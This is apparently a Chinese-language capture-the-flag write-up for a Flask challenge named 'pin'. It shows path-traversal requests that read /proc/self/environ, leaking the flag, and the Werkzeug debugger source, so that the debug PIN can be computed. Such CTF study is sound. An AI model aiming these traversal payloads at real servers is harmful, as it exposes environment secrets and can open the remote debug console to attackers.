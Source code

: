 # Spirit CTF 2023 题解 - pin

~~这题被用procfs非预期了，好不甘心qaq~~

---

```
/?location=index.html
```

![](<./img/Pasted image 20230514202231.png>)

任意文件读取就对了

非预期解法
===

```
/?location=../../../../../../proc/self/environ
```

> PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> HOSTNAME=9264804d37f5
> FLAG=Spirit{94f63678-998a-4feb-ab66-50ab20fb501b}
> LANG=C.UTF-8
> GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
> PYTHON_VERSION=3.11.3
> PYTHON_PIP_VERSION=22.3.1
> PYTHON_SETUPTOOLS_VERSION=65.5.1
> PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/0d8570dc44796f4369b652222cf176b3db6ac70e/public/get-pip.py
> PYTHON_GET_PIP_SHA256=96461deced5c2a487ddc65207ec5a9cffeca0d34e7af7ea1afc470ff0d746207
> HOME=/root
> WERKZEUG_SERVER_FD=3
> WERKZEUG_RUN_MAIN=true

虽然很气但万物皆文件真的很香～

预期解法
===

可以看下[这篇blog](https://www.kingkk.com/2018/08/Flask-debug-pin%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/)～

总之就是非常离谱，只要能够任意文件读取，PIN是可以算！出！来！的！

当然生产环境开debug以及任意文件读取本身就是个大灾难了，就像是别人站在你电脑前了，chrome保存的密码啥的不泄露才怪

PIN的算法可能会有所不同，但是既然可以读文件，就可以看到靶机里面这部分的源码

```
/?location=../../../../../../usr/local/lib/python3.11/site-packages/werkzeug/debug/__init__.py
```

照着源码对号入座就好啦
